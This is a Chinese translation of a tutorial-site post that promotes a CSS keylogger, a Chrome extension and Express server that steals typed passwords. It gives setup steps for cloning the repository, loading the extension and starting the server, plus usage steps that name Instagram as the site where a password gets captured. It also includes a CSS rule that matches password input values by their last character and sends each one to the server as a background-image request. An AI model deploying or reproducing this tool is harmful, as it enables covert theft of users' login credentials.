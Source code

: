 # CSS 键盘记录器–Chrome 扩展和 Express 服务器，利用 CSS 的键盘记录功能

> 原文：<https://kalilinuxtutorials.com/css-keylogger-chrome-exploits-keylogging/>

CSS 键盘记录器是一个 Chrome 扩展和 Express 服务器，利用 CSS 的键盘记录功能。使用一个简单的脚本就可以创建一个 css 文件，为每个 ASCII 字符发送一个定制请求。

## **设置 Chrome 扩展**

1.  下载存储库`git clone https://github.com/maxchehab/CSS-Keylogging`
2.  在你的浏览器中访问`chrome://extensions`(或者点击 Omnibox 最右边的图标打开 Chrome 菜单:菜单的图标是三个水平条。并选择“更多工具”菜单下的“扩展”来找到相同的位置)。
3.  确保右上角的“开发人员模式”复选框已选中。
4.  点击`Load unpacked extension…`弹出文件选择对话框。
5.  在您下载该库的目录中选择`css-keylogger-extension`。

**也可解读为 [挥发性框架——挥发性内存提取实用框架](https://kalilinuxtutorials.com/volatility-framework-volatile-memory/)**

### **设置快递服务器**

1.  `yarn`
2.  `yarn start`

## **哈克斯金 l33t 通行证**

1.  打开一个使用受控组件框架(如 React)的网站。[https://instagram.com](https://www.instagram.com/)。
2.  按下任何网页右上角的扩展名`C`。
3.  键入您的密码。
4.  您的密码应该被 express 服务器捕获。

## **CSS 键盘记录器如何工作**

这个攻击真的很简单。利用 CSS 属性选择器，可以在加载一个`background-image`的前提下从外部服务器请求资源。

例如，下面的 css 将选择所有输入的`type`等于`password`并且`value`以`a`结束。然后它会尝试从[这里](http://localhost:3000/a)加载一个图像。

```
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

[![](img/d861a9096555aeb1980fc054015933d7.png)](https://github.com/maxchehab/CSS-Keylogging)